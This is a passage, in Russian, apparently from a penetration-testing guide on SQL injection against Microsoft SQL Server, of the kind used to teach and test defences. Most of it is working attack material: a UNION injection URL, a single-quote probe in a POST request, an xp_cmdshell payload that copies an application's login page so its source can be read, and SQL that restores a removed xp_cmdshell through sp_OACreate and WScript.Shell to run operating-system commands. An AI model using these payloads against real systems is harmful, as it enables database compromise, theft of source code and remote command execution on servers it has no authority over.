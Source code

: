`https://vulnerable.web.app/list_report.aspx?number=001%20UNION%20ALL%201,1,'a',1,1,1%20FROM%20users;--`

### Пример 3: Тестирование в запросе POST

SQL-инъекция, Содержимое HTTP POST: `email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

Пример полностью (`https://vulnerable.web.app/forgotpass.asp`):

```http
POST /forgotpass.asp HTTP/1.1
Host: vulnerable.web.app
[...]
Referer: http://vulnerable.web.app/forgotpass.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

email=%27&whichSubmit=submit&submit.x=0&submit.y=0
```

Сообщение об ошибке, получаемое при вводе символа `'` (одинарная кавычка) в поле электронной почты:

```txt
Microsoft OLE DB Provider for SQL Server error '80040e14'
Unclosed quotation mark before the character string '' '.
/forgotpass.asp, line 15
```

### Пример 4: Ещё один (полезный) пример GET

Получение исходного кода приложения

`a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Пример 5: Нестандартный `xp_cmdshell`

Во всех книгах и статьях, описывающих лучшие практики безопасности для SQL Server, рекомендуется отключать `xp_cmdshell` в SQL Server 2000 (начиная с SQL Server 2005 он отключен по умолчанию). Однако, если у нас есть права системного администратора (исходно или путем перебора пароля системного администратора, см. ниже), мы часто можем обойти это ограничение.

В SQL Server 2000:

- Если `xp_cmdshell` был отключен с помощью `sp_dropextendedproc`, мы можем просто вставить следующий код:

`sp_addextendedproc 'xp_cmdshell','xp_log70.dll'`

- Если предыдущий код не работает, это означает, что `xp_log70.dll` был перемещён или удалён. В этом случае нам нужно ввести следующий код:

```sql
CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
    DECLARE @result int, @OLEResult int, @RunResult int
    DECLARE @ShellID int
    EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OADestroy @ShellID
    return @result
```

